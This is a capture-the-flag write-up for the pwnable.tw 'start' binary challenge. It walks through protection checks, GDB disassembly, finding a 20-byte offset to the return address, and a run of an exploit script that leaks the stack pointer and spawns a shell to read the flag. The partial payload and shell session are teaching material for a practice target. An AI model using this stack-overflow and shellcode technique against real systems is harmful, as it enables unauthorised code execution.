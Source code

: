 # pwnable.tw: start

>  Just a start.
>
> ```
>nc chall.pwnable.tw 10000
> ```
>
> [start](https://pwnable.tw/static/chall/start)



### Examine the basic information

```shell
$ checksec start
[*] '/Users/mindy/Desktop/CTF/binary_exploit/pwnable.tw/01_start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

```shell
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

The executive file is 32-bit and none of the protection is enabled.



### GDB

##### analyze _start

```
gdb-peda$ disas _start
Dump of assembler code for function _start:
   0x08048060 <+0>:	push   esp
   0x08048061 <+1>:	push   0x804809d
```

clear eax, ebx, ecx, edx

```
   0x08048066 <+6>:	xor    eax,eax
   0x08048068 <+8>:	xor    ebx,ebx
   0x0804806a <+10>:	xor    ecx,ecx
   0x0804806c <+12>:	xor    edx,edx
```

push prameters to stack -> Let's start the CTF:

```
	 0x0804806e <+14>:	push 0x3a465443
	 0x08048073 <+19>:	push   0x20656874
   0x08048078 <+24>:	push   0x20747261
   0x0804807d <+29>:	push   0x74732073
   0x08048082 <+34>:	push   0x2774654c
```

sys_write

```sys_write
   0x08048087 <+39>:	mov    ecx,esp
   0x08048089 <+41>:	mov    dl,0x14
   0x0804808b <+43>:	mov    bl,0x1
   0x0804808d <+45>:	mov    al,0x4
   0x0804808f <+47>:	int    0x80
```

sys_read

```sys_read
   0x08048091 <+49>:	xor    ebx,ebx
   0x08048093 <+51>:	mov    dl,0x3c
   0x08048095 <+53>:	mov    al,0x3
   0x08048097 <+55>:	int    0x80
```

return to _exit

```
	 0x08048099 <+57>:	add esp,0x14
	 0x0804809c <+60>:	ret    
End of assembler dump.
```

syscall in _start

| name      | eax  | ebx                    | ecx                         | edx                 |
| --------- | ---- | ---------------------- | --------------------------- | ------------------- |
| sys_write | 0x04 | unsigned int fd = 0x01 | const char _user *buf = esp | size_t count = 0x14 |
| sys_read  | 0x03 | unsigned int fd = 0x01 | char _user *buf = esp       | size_t count = 0x3c |

check how the input overwrite the system

```
gdb-peda$ pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 20
Registers point to pattern buffer:
[ECX] --> offset 0 - size ~40
[ESP] --> offset 24 - size ~16
Pattern buffer found at:
0xffffd124 : offset    0 - size   34 ($sp + -0x18 [-6 dwords])
Reference to pattern buffer not found in memory
```

Input after the 20th character overwrite *ret* and after the 24th character overwrite *esp*.

### Exploit

1. leak *esp*
2. call *sys_execve(‘/bin/sh’)

##### run the exploit file in python3

``` shell
$ python3 solve.py
[*] '/Users/mindy/Desktop/CTF/binary_exploit/pwnable.tw/01_start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
[+] Opening connection to chall.pwnable.tw on port 10000: Done
payload =  b'aaaaaaaaaaaaaaaaaaaa\x87\x80\x04\x08'
ESP =  0xffed5cd0
[*] Switching to interactive mode
\x00\x00\x006_find -name 'flag'
./home/start/flag
$ cat ./home/start/flag
FLAG{......}
$ 
[*] Interrupted
[*] Closed connection to chall.pwnable.tw port 10000
```

